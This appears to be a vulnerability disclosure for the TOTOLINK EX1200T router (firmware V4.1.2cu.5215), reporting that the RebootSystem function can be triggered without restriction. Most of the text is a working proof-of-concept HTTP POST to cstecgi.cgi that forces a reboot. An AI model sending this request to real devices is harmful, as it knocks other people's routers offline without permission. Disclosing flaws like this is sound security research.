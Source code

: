 # TOTOLINK EX1200T REBOOT

## Reboot Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The function `RebootSystem` of the file `lib/cste_modules/system.so`  can reboot the system at will.

![image-20211019163422031](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019163422031.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"RebootSystem"}
```

![image-20211019163826445](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019163826445.png)
